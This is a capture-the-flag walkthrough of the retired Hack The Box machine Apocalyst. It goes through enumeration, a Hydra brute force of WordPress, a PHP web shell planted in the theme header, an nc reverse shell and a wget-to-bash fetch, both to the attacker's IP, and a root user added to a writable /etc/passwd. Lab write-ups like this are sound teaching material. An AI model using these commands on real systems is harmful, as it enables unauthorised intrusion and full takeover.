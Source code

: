 # Apocalyst

This is the write-up for the box Apocalyst that got retired at the 25th November 2017.
My IP address was 10.10.14.28 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.46    apocalyst.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/apocalyst.nmap 10.10.10.46
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is an "Apocalypse Preparation Blog" that is installed on WordPress with the _Twentyseventeen theme_. This gets visible when browsing to the pages hostname _apocalyst.htb_.
```markdown
wpscan --url http://apocalyst.htb --enumerate u
```

The WordPress version is 4.8 and the only user found is called _falaraki_.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://apocalyst.htb dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Almost every word in the wordlist responses with a HTTP Code 301 and when we browse to them we always get the same page with just an image.
The pages redirect to a page with an appending slash an the end of the path and have a length of 157.

When we use the parameter for a trailing slash in _Gobuster_ then we get a HTTP Code 200 for every word in the wordlist.
Lets use **Cewl** to generate a wordlist based upon the words from the blog page:
```markdown
cewl apocalyst.htb -w cewl.txt
```

The _cewl.txt_ will now be used as a wordlist for **Gobuster** with the trailing slash parameter _(-f)_:
```markdown
gobuster -u http://apocalyst.htb dir -w cewl.txt -f -l | tee gobuster.txt
```

We send the output to a file _gobuster.txt_ and filter for any line that has not the length of 157 in it.
```markdown
cat gobuster.txt | grep -v 'Size: 157'
```

There is the word **Rightiousness** that responds with a length of 175.

Browsing to that page we still get the same image but a comment in the source that says _needle_.
It seems like we found the needle in the haystack and have to do something with this image.

### Analyzing the image

When getting an image file, it is often good to look for hidden files in them via **Steganography**.
Using **Steghide** to try to extract files from it:
```markdown
steghide extract -sf image.jpg
```

This works without a password and extracts the file _list.txt_ which seems to be a wordlist with 486 words.

### Authenticating on WordPress

We use the wordlist we gathered with **Hydra** to get the authentication credentials for the user _falaraki_:
```markdown
hydra -l falaraki -P list.txt apocalyst.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:is incorrect"
```

After a while the password is found:
> Transclisiation

Now access with the credentials is granted and we modify a PHP file to get code execution.
```markdown
Appearance --> Editor --> Theme Header
```

Modifying the _header.php_ file to execute the following code:
```php
<?php
echo system($\_REQUEST['cmd']);
// (...)
?>
```

Browsing to "http://apocalyst.htb/?cmd=whoami" outputs _www-data_ from the `whoami` command in the source.
With this command execution we can start a reverse shell:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9001 >/tmp/f

# URL-encoded:
http://apocalyst.htb/?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.28+9001+>/tmp/f
```

Executing this results in starting a reverse shell on the listener that listens on my IP and port 9001.

## Privilege Escalation

To get an attack surface it would be useful to start any Linux enumeration script on the box:
```markdown
wget http://10.10.14.28/LinEnum.sh | bash
```

One interesting result is that **/etc/passwd** is writeable by all users:
```markdown
-rw-rw-rw- 1 root root 1637 Jul 26  2017 /etc/passwd
```

This means that it is possible to create users or change passwords from other users. Lets create a password for a new user:
```markdown
openssl passwd -1 -salt newuser Pass1234
```

And then edit the file to create _newuser_ with the pasword and UserID and GroupID 0:
```markdown
newuser:$1$newuser$82ynj4089D97/6jtzM22O.:0:0:root:/root:/bin/bash
```

Now we can switch with ´su newuser´ to the created user and start a root shell!
